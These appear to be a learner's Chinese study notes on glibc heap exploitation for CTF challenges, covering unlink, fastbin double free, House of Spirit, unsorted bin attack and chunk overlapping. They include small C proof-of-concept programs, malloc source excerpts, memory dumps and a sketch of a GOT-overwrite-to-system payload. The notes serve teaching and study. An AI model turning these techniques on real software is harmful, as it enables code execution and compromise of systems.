


# 堆漏洞学习

不会抄完原文，仅仅是做补充，更详细完整的内容还是要看标题地址给出的文章。

## [unlink](https://github.com/JnuSimba/LinuxSecNotes/blob/master/Linux%20X86%20%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E7%B3%BB%E5%88%97/Unlink%E5%A0%86%E6%BA%A2%E5%87%BA.md)

### 2.2 开始攻击

......

假设被覆盖后的chunk header相关数据如下：

prev_size =一个偶数，这样其PREV_INUSE位就是0了，即表示前一个chunk为free。
size = -4
fd = free函数的got表地址address – 12；(后文统一简称为“free addr – 12”)
bk = shellcode的地址
那么当程序在[4]处调用free(first)后会发生什么呢？我们一步一步分析。
一、向后合并
鉴于first的前一个chunk非free的，所以不会发生向后合并操作。
二、向前合并
先判断后一个chunk是否为free，前文已经介绍过，glibc malloc通过如下代码判断：


PS：在本例中next chunk即second chunk，为了便于理解后文统一用next chunk。

从上面代码可以知道，它是通过将nextchunk + nextsize计算得到指向下下一个chunk的指针，然后判断下下个chunk的size的PREV_INUSE标记位。在本例中，此时nextsize被我们设置为了-4，这样glibc malloc就会将next chunk的prev_size字段看做是next-next chunk的size字段，而我们已经将next chunk的prev_size字段设置为了一个偶数，因此此时通过inuse_bit_at_offset宏获取到的nextinuse为0，即next chunk为free！既然next chunk为free，那么就需要进行向前合并，所以就会调用unlink(nextchunk, bck, fwd);函数。真正的重点就是这个unlink函数！

和栈一样，堆也可以溢出。处于使用状态的堆中的fd和bk部分用于存储用户数据，那这块区域肯定就是提前计划好的。假设这块为16个字节，但往里面存了超过16个字节的数据，那么数据就会溢出到chunk header（来自未来的我：似乎溢出到了下一个堆块的chunk header，而不是自己的）。上面的例子中将覆盖的内容精心布置，这种精心布置的理解和栈溢出一样，都是利用了堆的结构和程序特性来实现攻击。

一定要看每张图里的代码和注释，是有用的。比如unlink函数的参数是在前面的图中的注释里有提到，unlink(P,BK,FD)的p指向malloc_chunk的结构体，BK是bck，FD是fwd，它们分别是当前chunk向后和向前一个free chunk。

......

此时P = nextchunk, BK = bck, FD = fwd。
1)首先FD = nextchunk->fd = free地址– 12;
2)然后BK = nextchunk->bk = shellcode起始地址；
3)再将BK赋值给FD->bk，即（free地址– 12）->bk = shellcode起始地址；
4)最后将FD赋值给BK->fd，即(shellcode起始地址)->fd = free地址– 12。
前面两步还好理解，主要是后面2步比较迷惑。我们作图理解：


结合上图就很好理解第3，4步了。细心的朋友已经注意到，free addr -12和shellcode addr对应的prev_size等字段是用虚线标记的，为什么呢？因为事实上它们对应的内存并不是chunk header，只是在我们的攻击中需要让glibc malloc在进行unlink操作的时候将它们强制看作malloc_chunk结构体。这样就很好理解为什么要用free addr – 12替换next chunk的fd了，因为(free addr -12)->bk刚好就是free addr，也就是说第3步操作的结果就是将free addr处的数据替换为shellcode的起始地址。

由于已经将free addr处的数据替换为了shellcode的起始地址，所以当程序在代码[5]处再次执行free的时候，就会转而执行shellcode了。

至此，整个unlink攻击的原理已经介绍完毕，剩下的工作就是根据上述原理，编写shellcode了。只不过这里需要注意一点，glibc malloc在unlink的过程中会将shellcode + 8位置的4字节数据替换为free addr – 12，所以我们编写的shellcode应该跳过前面的12字节。

这段我理解了好久，什么叫“将它们强制看作malloc_chunk结构体”？看这篇文章需要C语言基础，但是我没有啊，于是搜到了[相关内容](https://blog.csdn.net/blog_xu/article/details/84374473)。是可以把一段连续的内存（比如后文提到的全局数组，不知道我这么理解对不对？）对应着转换成结构体的每一个成员的。这大概就是(free addr -12)->bk是free addr的原因了（按照堆块的结构，中间有3个字段，每个4字节，也许吧，我这个能力只能找到这个解释了）。

好消息：上面那段花了好久明白后你会发现：那个技术早就已经过时了=(。没关系，脑洞大开的黑客们总能想办法。

“如何利用”那个小节可以解答很多疑惑，果然来个例子就清晰很多了，而且还是绕过损坏双链表防御的方法。关键点在于用用户数据部分（fd和bk）伪造了整个堆块的结构，然后溢出到下一个堆块瞒天过海，两者配合欺骗glibc。

今天又做了个unlink题，一败涂地，去搜别的也没学会。无奈找了个[视频](https://www.bilibili.com/video/BV11q4y1E7E2/)。

之前一直没研究过源码（终究要为懒付出代价），开始还债。


看这些代码，p是当前free的堆块地址。如果p的前一个chunk不在使用状态，会触发unlink。unlink会把两个chunk合并在一起，自然合并后的结果是原本的两个chunk加起来的大小，size+=prevsize正是在计算合并后的大小。大小改了，p指针肯定也要改，这里是向前合并，所以p指针要指向前一个堆块，chunk_at_offset那行代码就是计算并赋值新的p指针。最后unlink将p从unsorted bin里拿出来，然后放回去。之前一直对这里有误解，以为unlink就是设置一下fd和bk，原来还有一个拿下来再放回去的操作。



既然unlink是完成合并的的主要函数，那其实现自然很重要吧？我们可以像上图一样伪造，P是一个堆，在chunk列表中，这个chunk列表就是做堆题时很常见的那种管理所有堆的数据结构，一般都是列表。接下来怎么绕过的上面已经提过了，最后两行其实操作的都是一个地址，FD->bk=BK往0x602280写入0x602270，BK->fd=FD往0x602280写入0x602268。自然最后一个才算数，所以最终效果是往chunk里写入了chunk-0x18的值，即往p所在的地址写入p-0x18。

接下来的例题我记录一些关键思路。由于unlink实施时需要得知chunk所在地址，自然pie不能有，或者要有泄露地址的方法。然后要找到这道题的p，即需要合并的堆块在哪里。视频中选择了0号块，不难找到地址是0x602300。选好地址后fd和bk简直手到擒来，每道题都是这样构造的。

第一个payload结构如下：prev_size，size，fd，bk构造假堆块，溢出prev_size和size到下一个堆块，更改标志位，使下一个堆块认为我们构造的堆块是free状态，free执行unlink。



unlink完成后，unsorted bin中插入了刚才合并得到的块。检查0x602300，发现0号块指向了0x6022e8，正是我们要的结果。检查0x6022e8，这不是整个chunk列表吗？现在我们编辑0号块就可以随意更改chunk列表，快乐覆盖快乐改地址。

不过还不能直接getshell，这题需要泄露libc。这简单啊，先0x18个a从0x6022e8填充到0x602300，再跟上两个atoi got地址，一个free地址。edit 2号块相当于把free 的got地址改为puts_plt，free（0）就能泄露atoi的地址了。地址出来了，getshell真的小菜一碟，改atoi或者free为system都行。

第二个例子跟这个差不多，就不记录了。大佬讲得实在太好了，现在就是坐等一道题练练手了。

## [Fastbin Attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/fastbin-attack/)

### Fastbin Double Free

这个在pwn堆中用得很多，不会就吃席。而且大部分都属于入门级别堆题，虽然堆的入门级别已经比ret2libc还要难得多。

fastbin attack的关键在于堆溢出，或者别的能控制chunk内容的东西，例如uaf。这里说的chunk内容不是chunk的user data域，而是fd，bk这类平时接触不到但是又和chunk息息相关的东西。拿stack的pwn类比，正常来说用户输入不可能碰得到ebp，eip这种东西，但是ebp和eip又和栈的执行息息相关。在栈上我们通过溢出构造rop链，本质上就是理解并利用了栈的结构，现在到堆了也是一个道理。

fastbin attack有这些分类：

·Fastbin Double Free

·House of Spirit

·Alloc to Stack

·Arbitrary Alloc

前两种漏洞侧重于利用 free 函数释放真的 chunk 或伪造的 chunk，然后再次申请 chunk 进行攻击，后两种侧重于故意修改 fd 指针，直接利用 malloc 申请指定位置 chunk 进行攻击。说这些肯定没法懂，研究原理。

搞fastbin attack不懂fastbin寸步难行。fastbin使用单链表维护制定大小内被释放的堆块，并且由 fastbin 管理的 chunk 即使被释放，其 next_chunk 的 prev_inuse 位也不会被清空。假设我们有3个chunk，都是fastbin大小，free chunk1会让chunk1加入fastbin的单链表，fd 是0x000000，代表没有前一个堆块；free chunk 2会让chunk 2的fd指向chunk 1；free chunk3会让chunk 3的fd指向chunk 2。就是排队，太好理解了。

这样看来fastbin malloc时的顺序也很简单了。假如malloc的大小和已有的一致，比如chunk 3，那就会把chunk 3从链表中拿出去；然后chunk 2；最后chunk 1。先进后出。现在有个问题，你说同一个chunk能不能排两次队？答案是可以。这主要因为以下两个问题：

1. fastbin 的堆块被释放后 next_chunk 的 pre_inuse 位不会被清空
2. fastbin 在执行 free 的时候仅验证了 main_arena 直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证。

pre_inuse不清空让系统不知道前面的堆块是不是已经被使用了；不做验证更是给了double free的温床。试想这个场景，有chunk1和chunk2，先free chunk1，然后再free chunk1，会出现问题吗？答案是会，因为链表头部还是会验证的，chunk1在此处就是fastbin的链表头部。于是我们以第一步为基础，再free chunk2，现在在free chunk1会报错吗？这回就不会了，因为现在的链表头部是chunk2了。double free chunk1会导致一个问题，同一个chunk排了两次队。

main_arena->chunk1->chunk2->chunk1

本来chunk1是第一个chunk（这个第一个指的是第一个进入链表的chunk），因此fd是0；现在它又来排队了，fd理所当然就成了chunk2。前面说过，fastbin attack的前提是能修改堆块结构，如果我们把chunk1的fd改了就能实现任意地址分配 fastbin 块。比如这个例子。

```c
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```

前面几个malloc和free只是构造一个上面提到的链表。其实我有一点不懂改chunk_a的地址为bss_chunk怎么就改了fd了呢？还好一般题目不是这样改的，溢出改的居多。第一次malloc chunk_a，得到的指针和chunk1一致。更改chunk_a等同于更改chunk1的fd。不过这次更改不会影响下次malloc，毕竟链表在更改之前就按照fd把链表尾设为chunk2了。于是第二次malloc得到chunk2。同理，第三次malloc得到chunk1。这时候问题来了，我们知道fastbin指定链表尾是根据fd的，chunk1的fd是什么？bss_chunk，之前设置的。于是最后一次malloc成功得到想要地址的chunk，攻击完成。

值得注意的是，我们在 main 函数的第一步就进行了bss_chunk.size=0x21;的操作，这是因为_int_malloc 会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。这是个小贴士，如果因为种种原因要分配的chunk的size不对，需要先改一下才能攻击。

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 (首先要通过验证)，这就相当于任意地址写任意值的效果。

### House Of Spirit

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配指定地址的 chunk 的目的。常见的用法是把堆块分配到`__malloc_hook`周围，然后编辑hook为getshell的gadget。

只有一个关键点——构造fastbin范围内的fake chunk。

## [Unsorted Bin Attack](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/)

### 概述

Unsorted Bin Attack，顾名思义，该攻击与 Glibc 堆管理中的的 Unsorted Bin 的机制紧密相关。

Unsorted Bin Attack 被利用的前提是控制 Unsorted Bin Chunk 的 bk 指针。

Unsorted Bin Attack 可以达到的效果是实现修改任意地址值为一个较大的数值。

总结一下，unsorted bin attack发生在unsorted bin中，需要能控制堆的bk指针。这个条件堆溢出轻松满足。效果是修改任意地址值为一个较大的数值。注意这个值是没法由我们控制的，因此除了一些特别的题，这种攻击手法都是为将来做铺垫的。

### Unsorted Bin Attack 原理 

在 glibc/malloc/malloc.c 中的 _int_malloc 有这么一段代码，当将一个 unsorted bin 取出的时候，会将 bck->fd 的位置写入本 Unsorted Bin 的位置。

```c
          /* remove from unsorted list */
          if (__glibc_unlikely (bck->fd != victim))
            malloc_printerr ("malloc(): corrupted unsorted chunks 3");
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

换而言之，如果我们控制了 bk 的值，我们就能将 unsorted_chunks (av) 写到任意地址。

拿堆溢出的语境做类比，bck是我们能通过溢出修改的chunk，`bck->fd = unsorted_chunks (av);`这行代码将bck的fd指针赋值为`unsorted_chunks (av)`。我们可以利用溢出将`bck->fd`设置为目标地址，代码执行后目标地址的值就是`unsorted_chunks (av)`了。然而`unsorted_chunks (av)`的确切值我们没法控制，这也是该攻击只能将目标地址改为较大值的根本原因。

这里以 shellphish 的 how2heap 仓库中的 [unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c) 为例进行介绍，做一些简单的修改，如下(我渣翻了英语)

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "此文件通过将一个较大的unsigned long值写入栈来演示unsorted bin attack\n");
  fprintf(
      stderr,
      "实际情况中，unsorted bin attack用于为接下来的攻击做准备，比如覆盖libc的全局变量global_max_fast为fastbin attack做准备\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "先看看我们要在栈上修改的值:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "接着，我们分配第一个普通堆块，位于堆的: %p\n",
          p);
  fprintf(stderr, "再分配一个普通堆块，防止free时刚才的堆块与top chunk合并\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "我们刚刚free了第一个堆块，现在它会被插入unsorted bin中，其bk指针为 %p\n",
          (void *)p[1]);

  /*------------漏洞点-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "现在我们模拟一个可以修改 被溢出堆块->bk指针 的漏洞\n");
  fprintf(stderr, "然后覆盖被溢出堆块的bk指针为 目标地址-16（在32位机器上，应该覆盖为 目标地址-8）:%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "让我们再malloc一次，得到我们刚刚free的那个堆块。这回目标地址应该已经被修改了:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

这里我们可以使用一个图来描述一下具体发生的流程以及背后的原理。


初始状态时

unsorted bin 的 fd 和 bk 均指向 unsorted bin 本身。

执行 free(p)

由于释放的 chunk 大小不属于 fast bin 范围内，所以会首先放入到 unsorted bin 中。

修改 p[1]

利用某些漏洞例如堆溢出修改之后，原来在 unsorted bin 中的 p 的 bk 指针就会指向 target addr-16 处伪造的 chunk，即 Target Value 处于伪造 chunk 的 fd 处。这样伪造会让unsorted bin中凭空多出来一个堆块。无论target addr是什么结构都不重要，系统都会自动将其看为一个堆块。target addr-16这个值也不是乱写的，这样构造可以让target value正好位于凭空冒出来堆块的fd处。

申请 400 大小的 chunk

此时，所申请的 chunk 处于 small bin 所在的范围，其对应的 bin 中暂时没有 chunk，所以会去 unsorted bin 中找，发现 unsorted bin 不空，于是把 unsorted bin 中的最后一个 chunk 拿出来。

注意unsroted bin是FIFO，像队列一样，因此我们现在取出来的是刚刚free的p堆块。

```c
        /*unsorted_chunks(av)结合上面的图可以猜测是unsorted bin里粉色的初始块，其bk此时为p。因此这里的victim是上面提到的p*/
        while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
            /*victim->bk等于说p->bk，之前我们把p的bk指针覆盖为了target_addr-16,因此bck=target_addr-16*/
            bck = victim->bk;
            if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
                __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
                malloc_printerr(check_action, "malloc(): memory corruption",
                                chunk2mem(victim), av);
            size = chunksize(victim);

            /*
               If a small request, try to use last remainder if it is the
               only chunk in unsorted bin.  This helps promote locality for
               runs of consecutive small requests. This is the only
               exception to best-fit, and applies only when there is
               no exact fit for a small chunk.
             */
            /* 显然，bck被修改，并不符合这里的要求*/
            if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                victim == av->last_remainder &&
                (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
                ....
            }

            /* remove from unsorted list */
            /*让初始块的bk等于bck，也就是target_addr-16*/
            unsorted_chunks(av)->bk = bck;
            /*虽然target_addr-16并不是严格意义上的堆块，但这里强行将其看作堆块。遵循堆块的结构，fd指针处于堆块地址偏移16的位置，那么bck->fd等同于*(target_addr-16+16)。最后赋值其为unsorted_chunks(av)，一个很大的值*/
            bck->fd                 = unsorted_chunks(av);
```

可以看出，在将 unsorted bin 的最后一个 chunk 拿出来的过程中，victim 的 fd 并没有发挥作用，所以即使我们修改了其为一个不合法的值也没有关系。然而，需要注意的是，unsorted bin 链表可能就此破坏，再插入 chunk 时，可能会出现问题。这是因为最后`unsorted_chunks(av)->bk = bck;`把那个不存在的堆块也看作堆块插入链表了。

最后效果即修改 target 处的值为 unsorted bin 的链表头部 0x7f1c705ffb78。可以看到 unsorted bin attack 确实可以修改任意地址的值，但是所修改成的值却不受我们控制，唯一可以知道的是，这个值比较大。而且，需要注意的是，

这看起来似乎并没有什么用处，但是其实还是有点用的，比如说:

·我们通过修改循环的次数来使得程序可以执行多次循环。

·我们可以修改 heap 中的 global_max_fast 来使得更大的 chunk 可以被视为 fast bin，这样我们就可以去执行一些 fast bin attack 了。

## [Chunk Extend and Overlapping](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/chChunk%20Extend%20and%20Overlapping%C2%B6)

该漏洞需要以下条件：
- 程序中存在基于堆的漏洞
- 漏洞可以控制 chunk header 中的数据

如果研究一下源码，就可以知道ptmalloc 通过 chunk header 的数据判断 chunk 的使用情况和对 chunk 的前后块进行定位。这意味着如果我们控制size和pre_size域后，ptmalloc对堆块的边界和划分就会混乱，从而得以利用。、

### 基本示例 1：对 inuse 的 fastbin 进行 extend

通过更改第一个块的大小来控制第二个块的内容。

```c
int main(void)
{
    void *ptr,*ptr1;

    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk

    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域，这一步实战中通过堆溢出漏洞实现

    free(ptr);  //free chunk1
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```

没有篡改前的堆长这样：

```
0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk 1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021 <=== chunk 2
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1 <=== top chunk
```

篡改后长这样：

```
0x602000:   0x0000000000000000  0x0000000000000041 <=== 篡改大小
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1 
```

仅仅是21和41的区别却天差地别。注意size被更改后，chunk2的内容现在被包含进chunk1了。这时free chunk1会发现chunk1会和chunk2合并在一起被free。

```
0x602000:   0x0000000000000000  0x0000000000000041 <=== 篡改大小
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1 
```

最后我们 malloc(0x30) ，会得到 chunk1+chunk2 的块。此时正常编辑就可以直接控制 chunk2 中的内容，我们也把这种状态称为 overlapping chunk。

### 基本示例 2：对 inuse 的 smallbin 进行 extend

这回我们让创建堆块的大小不在fastbin范围内，这样被free的堆块就会进入unsorted bin而不是fastbin。

```c
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并

    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);
    ptr1=malloc(0xa0);
}
```

在这个例子中，因为分配的 size 不处于 fastbin 的范围，因此在释放时如果与 top chunk 相连会导致和 top chunk 合并。所以我们需要额外分配一个 chunk，把释放的块与 top chunk 隔开。篡改后如下：

```
0x602000:   0x0000000000000000  0x00000000000000b1 <===chunk1 篡改size域
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk2
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000000021 <=== 防止合并的chunk
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk
```

释放后，chunk1 与 chunk2 合并，一起置入 unsorted bin。

```
0x602000:   0x0000000000000000  0x00000000000000b1 <=== 被放入unsorted bin
0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000021
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x00000000000000b0  0x0000000000000020 <=== 注意此处标记为空
0x6020c0:   0x0000000000000000  0x0000000000000000
0x6020d0:   0x0000000000000000  0x0000000000020f31 <=== top chunk
```

再次进行分配的时候就会取回 chunk1 和 chunk2 的空间，此时我们正常编辑就可以控制 chunk2 中的内容。

### 基本示例 3：对 free 的 smallbin 进行 extend

示例 3 是在示例 2 的基础上进行的，这次我们先释放 chunk1，然后再修改处于 unsorted bin 中的 chunk1 的 size 域。

```c
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2

    free(ptr);//首先进行释放，使得chunk1进入unsorted bin

    *(int *)((int)ptr-0x8)=0xb1;
    ptr1=malloc(0xa0);
}
```

malloc后（未free，未修改前）：

```
0x602000:   0x0000000000000000  0x0000000000000091 <=== chunk 1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000000  0x0000000000000021 <=== chunk 2
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000020f51
```

释放chunk1后：

```
     unsorted_bins[0]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x90, flags=PREV_INUSE)

0x602000:   0x0000000000000000  0x0000000000000091 <=== 进入unsorted bin
0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000090  0x0000000000000020 <=== chunk 2
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000020f51 <=== top chunk
```

篡改chunk1的size：

```
0x602000:   0x0000000000000000  0x00000000000000b1 <=== size域被篡改
0x602010:   0x00007ffff7dd1b78  0x00007ffff7dd1b78
0x602020:   0x0000000000000000  0x0000000000000000
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000000000
0x602090:   0x0000000000000090  0x0000000000000020
0x6020a0:   0x0000000000000000  0x0000000000000000
0x6020b0:   0x0000000000000000  0x0000000000020f51
```

此时再进行 malloc 分配就可以得到 chunk1+chunk2 的堆块，从而控制了 chunk2 的内容。能发现示例2和3基本一致，只是告诉我们free后的堆块不影响我们发挥。

一般来说，这种技术并不能直接控制程序的执行流程，但是可以控制 chunk 中的内容。如果 chunk 存在字符串指针、函数指针等，就可以利用这些指针来进行信息泄漏和控制执行流程。比如把chunk的任何字符串、函数、另一个堆块的指针改为free_got，然后编辑修改为system。

此外通过 extend 可以实现 chunk overlapping，通过 overlapping 可以控制 chunk 的 fd/bk 指针从而可以实现 fastbin attack 等利用。